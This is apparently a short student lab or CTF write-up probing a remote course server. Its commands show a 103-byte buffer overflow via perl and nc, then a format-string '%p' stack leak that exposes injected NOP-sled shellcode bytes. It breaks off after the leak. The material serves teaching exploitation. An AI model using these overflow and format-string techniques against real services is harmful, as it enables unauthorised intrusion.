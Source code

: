 # Writeup
s1049877 Jakob Udovic
s_________ Daan

```shell
$ echo "$(perl -e 'print "0"x103')" | nc hackme.rded.nl 27408
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

```

Buffer is 103 Bytes big. With printing 104 Bytes we get weird output at the end:
```bash
$ echo "$(perl -e 'print "0"x104')" | nc hackme.rded.nl 27408
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000�����
```


We can inspect the stack with 34 %p 


```bash
echo "$(perl -e 'print "%p "x60'; ./shellcode list 10)" | nc hackme.rded.nl 27408 
* [DEBUG] ./shellcode printed 43 bytes
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebe0 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x9090909020702520 0x3148909090909090 0x2f2fbb48d23148c0 0xc148736c2f6e6962 0x5752e789485308eb 0x50f3bb0e68948 0x1 0x7fffffffeeb0�����
```


